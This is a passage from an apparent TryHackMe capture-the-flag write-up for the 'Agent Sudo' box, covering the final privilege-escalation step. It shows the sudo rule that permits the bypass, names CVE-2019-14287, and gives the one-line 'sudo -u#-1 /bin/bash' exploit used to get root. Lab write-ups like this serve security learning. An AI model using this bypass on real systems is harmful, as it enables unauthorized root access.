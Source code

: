 haha autospy (nice)

A reverse image search of the image reveals the:

`Roswell alien autopsy (de verdade)`

Time to PrivEsc

\*_mission impossible theme starts_

## Priviledge Escalation

```
sudo -l
[sudo] password for james:
Matching Defaults entries for james on agent-sudo:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
(ALL, !root) /bin/bash
```

wait what? lol..lets google that

`CVE-2019-14287`

Read it..understand it...do it

`sudo -u#-1 /bin/bash`

```
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is
super_secret_flag_here

By,
DesKel a.k.a Agent R
```

Cool..there is a bonus for agent R identity..lets GO...

kek I am stupid, its just...`deskel`

That was a fun one
